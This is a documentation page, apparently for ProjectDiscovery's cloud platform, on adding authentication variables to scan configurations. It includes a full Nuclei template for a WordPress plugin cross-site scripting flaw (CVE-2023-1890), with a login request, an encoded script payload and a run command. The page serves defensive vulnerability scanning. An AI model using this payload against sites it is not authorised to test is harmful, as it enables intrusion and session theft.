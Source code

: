 ```yaml
---
title: "Adding Parameters"
description: "A walkthrough of adding additional parameters to ProjectDiscovery scan configuration"
sidebarTitle: "Adding Parameters"
---
```


## Summary
Some Nuclei templates, to adapt to running in ProjectDiscovery Cloud Platform, may require additional parameters. 
A common example is Nuclei templates that need parameters like username and password to authenticate.

This page provides a common example to show you the steps required to set up scan parameters.
Using the scan configuration you can take advantage of these types of Nuclei templates within ProjectDiscovery. 

## Authentication Example 

In this example we’re going to look at a Nuclei template that requires WordPress authentication. 

WordPress authentication is required for over 150 different Nuclei templates, and in each of these the templates can't be executed without configuring additional parameters. 

For example:

```yaml

id: CVE-2023-1890

info:
  name: Tablesome < 1.0.9 - Cross-Site Scripting
  author: r3Y3r53
  severity: medium
  description: |
    Tablesome before 1.0.9 is susceptible to cross-site scripting via the tab parameter due to insufficient input sanitization and output escaping. An attacker can inject arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
  impact: |
    Successful exploitation of this vulnerability could lead to the execution of arbitrary JavaScript code in the context of the victim's browser, potentially leading to session hijacking, defacement, or theft of sensitive information.
  remediation: Fixed in version 1.0.9.
  reference:
    - https://wpscan.com/vulnerability/8ef64490-30cd-4e07-9b7c-64f551944f3d
    - https://wordpress.org/plugins/tablesome/
    - https://nvd.nist.gov/vuln/detail/CVE-2023-1890
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
    cvss-score: 6.1
    cve-id: CVE-2023-1890
    cwe-id: CWE-79
    epss-score: 0.00203
    epss-percentile: 0.57653
    cpe: cpe:2.3:a:pauple:tablesome:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 2
    vendor: pauple
    product: tablesome
    framework: wordpress
  tags: cve2023,cve,wpscan,wp,wp-plugin,wordpress,authenticated,xss,tablesome,pauple

http:
  - raw:
      - |
        POST /wp-login.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        log={{username}}&pwd={{password}}&wp-submit=Log+In
      - |
        GET /wp-admin/edit.php?post_type=tablesome_cpt&a%22%3e%3cscript%3ealert`document.domain`%3c%2fscript%3e HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - 'status_code_2 == 200'
          - 'contains(content_type_2, "text/html")'
          - 'contains(body_2, "<script>alert`document_domain`</script>")'
          - 'contains(body_2, "tablesome")'
        condition: and

```

In the first request there are two variables that are not defined in the template. 
Users are expected to pass the values of these variables `{{username}}` and `{{password}}`. 

```
   POST /wp-login.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        log={{username}}&pwd={{password}}&wp-submit=Log+In
```

In Nuclei from the CLI you would simply run the following command:

`nuclei -id CVE-2023-1890 -var username=admin -var password=password123 -target https://example.com`

However, ProjectDiscovery requires some additional configuration to include these parameters in a scan. 

## Variable Configuration in ProjectDiscovery

To configure these required scan parameters in ProjectDiscovery you can create a Scan Configuration to pass these variables along in any scans you create. 
You can choose to enable this configuration for all scans by default, or apply the configuration manually when you set up a new scan. 

Complete these steps to set up an username and password parameters for a scan that includes WordPress authentication within the Nuclei templates. 

<Steps>
  <Step title="Navigate to Scans">
    Select Configurations. Next select **Scan Options** and **New Config**.
  </Step>
  <Step title="Complete Scan configuration">
    - Enter WP Login as the configuration name
    - Under Template variables enter **key** with the desired username and **value** with the corresponding password
    - Update Enable for all scans based on your preferences. _Keeping it selected (default) will pass the new variables for any templates that has these variables defined._ 
  <img height="200" src="/images/platform/parameterconfig.png" />
  </Step>
  <Step title="Complete your config">
    Select **Create** to create the new scan configuration. 
  </Step>
</Steps>

## What's Next? 
Now that you have created a new scan configuration if set to _“Enable for all scans”_ will appear as a configuration for any new scans you create. 
 - If this is not enabled you will be able to choose the configuration for any scan you create.

Create a new scan and select any WordPress templates you want to include. You can also create a custom template profile to define a specific group of WP templates.


